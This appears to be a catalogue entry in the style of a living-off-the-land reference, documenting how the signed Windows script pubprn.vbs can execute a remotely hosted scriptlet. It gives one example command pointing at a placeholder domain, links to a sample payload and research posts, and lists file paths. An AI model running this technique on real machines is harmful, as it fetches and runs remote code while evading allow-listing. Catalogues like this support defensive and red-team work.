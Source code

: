 ## Pubprn.vbs

* Functions: Execute

```
pubprn.vbs 127.0.0.1 script:https://domain.com/folder/file.sct
```

Acknowledgements:
* Matt Nelson - @enigma0x3

Code sample:
* [Pubprn_calc.sct](Payload/Pubprn_calc.sct)

Resources:
* https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
* https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology

Full path:
```
C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
```

Notes:



 
